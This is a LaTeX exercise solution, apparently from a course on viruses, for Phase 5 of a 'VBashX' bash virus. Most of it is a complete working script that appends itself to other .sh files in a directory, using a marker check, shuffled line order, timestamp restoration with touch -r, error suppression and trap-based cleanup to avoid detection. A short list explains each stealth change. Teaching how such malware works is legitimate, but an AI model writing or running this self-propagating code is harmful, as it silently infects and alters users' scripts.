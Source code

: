 \documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\theoremstyle{definition}
\newtheorem{exercice}{Exercise}
\begin{document}
\begin{exercice}[VBashX Project]
\begin{correction}

The complete Phase 5 virus integrates all 3 stealth techniques into the Phase 4 code:
\begin{lstlisting}[title=vbashx\_phase5.sh]
#!/bin/bash
echo "I am the host program"
# --- VBashX Phase 5 --- VBX_7k9Pz
REST_SIZE=13
LI=16
VIRUS_SIZE=$(($REST_SIZE + $LI))
TMP=".vbx_tmp.sh"
trap "rm -f $TMP .vbx_ref_*" EXIT
echo "#!/bin/bash" > $TMP
echo "SRC=\"$0\"" >> $TMP
nb=1; while [ $nb -le $LI ]; do
grep "#@${nb}#" "$0" >> $TMP
nb=$(($nb + 1)); done
chmod +x $TMP && ./$TMP
exit 0
MARKER="VBX_7k9Pz" #@1#
for f in *.sh; do #@2#
if [ "$(basename "$f")" != "$(basename "$SRC")" ]; then #@3#
if [ -z "$(grep "$MARKER" "$f" 2>/dev/null)" ]; then #@4#
cp -p "$f" ".vbx_ref_$$" 2>/dev/null #@5#
REST_S=13; LI_S=16; VS=$(($REST_S + $LI_S)) #@6#
tail -n $VS "$SRC" | head -n $REST_S >> "$f" 2>/dev/null #@7#
r=$(( ($RANDOM % 16) + 1 )) #@8#
n=1 #@9#
while [ $n -le $LI_S ]; do #@10#
grep "#@${r}#" "$SRC" >> "$f" 2>/dev/null #@11#
r=$(( ($r * 3) % 17 )) #@12#
n=$(($n + 1)); done #@13#
touch -r ".vbx_ref_$$" "$f" 2>/dev/null #@14#
rm -f ".vbx_ref_$$" 2>/dev/null #@15#
fi; fi; done #@16#
\end{lstlisting}

\textbf{Changes from Phase 4:}
\begin{itemize}
    \item \textbf{Line 8:} \texttt{trap} for automatic cleanup on exit (5b)
    \item \textbf{Tagged lines \#@4\#, \#@5\#, \#@7\#, \#@11\#:} added \texttt{2>/dev/null} to suppress errors (5c)
    \item \textbf{Line \#@5\#:} \texttt{cp -p} to save the original file's attributes (5a)
    \item \textbf{Line \#@14\#:} \texttt{touch -r} to restore timestamps after infection (5a)
    \item \textbf{Line \#@15\#:} cleanup of the reference file after timestamp restoration
\end{itemize}

\textbf{5c)} The \texttt{2>/dev/null} hides the following errors:
\begin{itemize}
    \item \texttt{grep}: error if the file does not exist or is not readable
    \item \texttt{cp/tail}: error on insufficient permissions
    \item \texttt{touch}: error if the reference file has been deleted
\end{itemize}


\end{correction}
\end{exercice}
\end{document}
